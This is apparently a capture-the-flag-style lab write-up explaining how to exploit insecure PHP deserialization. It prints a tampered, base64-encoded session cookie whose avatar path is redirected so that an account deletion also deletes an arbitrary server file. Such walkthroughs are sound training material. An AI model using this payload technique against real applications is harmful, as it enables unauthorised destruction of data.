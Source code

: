 # Lab 3

## Using application functionality to exploit insecure deserialization

### Question Description:

We have user access as `wiener:peter` but the lab is vulnerable to unchecked deserialization and also the application in lab has delete user functionality. We have to somehow leverage delete user functionality to delete morale.txt ( File location `/home/carlos/morale.txt` ). As a backup user we have other user credential given as `gregg:rosebud`.

### Tools Used:

- Burp Suite

#### Step 1 [ Find what the HTTP request looks like for deleting an user ]

First of all let's find out where delete account facility actually sends HTTP request.

Login as `gregg` and then in `My account` tab intercept the request when you click on delete button which will look something like below.

![](delete-facility-HTTP-request.png)

Now we know the request path let's forward/drop above request and go ahead and login to wiener and change serialized object to delete `morale.txt`

#### Step 2 [ Intercept and decode phase ]:

After logging in as wiener intercept the home page and send it to burp repeater ( Check lab 1 if you don't know how to do it. ) and notice the cookie section. Generally our object is encoded with base64 and then encoded with URL encoding which in our case looks like below.

> Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJsM1dYeWRvdDU1NHlHRWl2TmxTdFpQNURvdzhUd3VjUyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d

Decoded object will look like below.

> O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"l3WXydot554yGEivNlStZP5Dow8TwucS";s:11:"avatar_link";s:19:"users/wiener/avatar";}

#### Step 3 [ Modify object, encode and forward the delete use request ]:

After decoding above object notice the attribute `avatar_link` which has value `users/wiener/avatar`. The file here also gets deleted when we delete the account which is essentially the functionality of the application. so if we change the the location to `/home/carlos/morale.txt` and then send this serialized object to `/my-account/delete` and if it passes unchecked it will delete above file with the user and this is what we want!

Modified serialized object:

> O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"l3WXydot554yGEivNlStZP5Dow8TwucS";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

Which will be encoded to :

> Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJsM1dYeWRvdDU1NHlHRWl2TmxTdFpQNURvdzhUd3VjUyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9

Forward the request to `/my-account/delete` with above object in cookie section will delete the `morale.txt` file and your lab is completed.
